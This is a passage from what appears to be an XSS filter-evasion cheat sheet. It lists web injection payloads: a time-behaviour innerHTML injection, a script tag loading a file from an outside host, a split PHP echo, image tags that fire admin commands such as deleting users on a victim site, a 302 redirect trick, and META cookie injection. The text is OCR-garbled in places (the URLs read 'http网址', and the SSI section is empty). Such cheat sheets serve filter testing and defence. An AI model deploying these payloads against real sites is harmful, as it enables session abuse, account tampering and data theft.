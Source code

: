 ```js
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">

<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
Assuming you can only fit in a few characters and it filters against .js
You can rename your JavaScript file to an image as an XSS vector:
```

```js
<SCRIPT SRC="http网址xss.rocks/xss.jpg"></SCRIPT>
```

## SSI (Server Side Includes)
This requires SSI to be installed on the server to use this XSS vector. I probably don’t need to mention this, but if you can run commands on the server there are no doubt much more serious issues:



PHP
Requires PHP to be installed on the server to use this XSS vector. Again, if you can run any scripts ## remotely like this, there are probably much more dire issues:

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

IMG Embedded Commands
This works when the webpage where this is injected (like a web-board) is behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc…. This is one of the lesser used but more useful XSS vectors:

```js
<IMG SRC="http网址www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

IMG Embedded Commands part II
This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal <IMG SRC="httx://badguy.com/a.jpg"> could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector (thanks to Timo for part of this):
```
Redirect 302 /a.jpg http网址victimsite.com/admin.asp&deleteuser
```
Cookie Manipulation
Admittedly this is pretty obscure but I have seen a few examples where <META is allowed and you can use it to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim’s cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc…):

```js
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

